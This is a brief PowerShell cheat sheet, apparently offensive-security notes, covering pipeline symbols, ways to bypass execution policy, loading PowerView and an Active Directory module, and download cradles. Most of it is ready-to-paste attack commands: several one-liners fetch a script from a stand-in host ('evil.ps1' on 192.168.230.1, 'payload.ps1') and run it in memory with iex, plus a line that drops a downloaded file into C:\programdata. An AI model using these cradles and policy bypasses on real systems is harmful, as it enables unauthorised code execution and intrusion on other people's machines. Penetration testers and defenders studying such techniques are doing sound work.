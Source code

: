 # PowerShell Basics

### Useful Symbols

```
%	Foreach-Object
?	Where-Object
$_      The variable for the current value in the pipe line

Examples
1,2,3 | %{ write-host $_ } will print 1,2,3
1,2,3 | ?{$_ -gt 1} will print 2,3
```

### Execution Policy

Several ways to bypass

```batch
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass" 
```

### Load PowerShell script

```powershell
. c:\AD\Tools\PowerView.ps1
```

### Import a module

```powershell
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

### List available module commands

```powershell
Get-Command -Module <module_name>
Get-Help <module_name>
```

### Download files

```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
```

more options

{% code overflow="wrap" %}
```powershell
# Internet Explorer Downoad cradle
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response


$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()


$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
```
{% endcode %}

PowerShell v3+

```powershell
iex (iwr 'http://192.168.230.1/evil.ps1')
```

Download and store

```powershell
iex (new-Object Net.WebClient).DownloadFile('http://<IP>/<File>', 'C:\programdata\<File>')
```
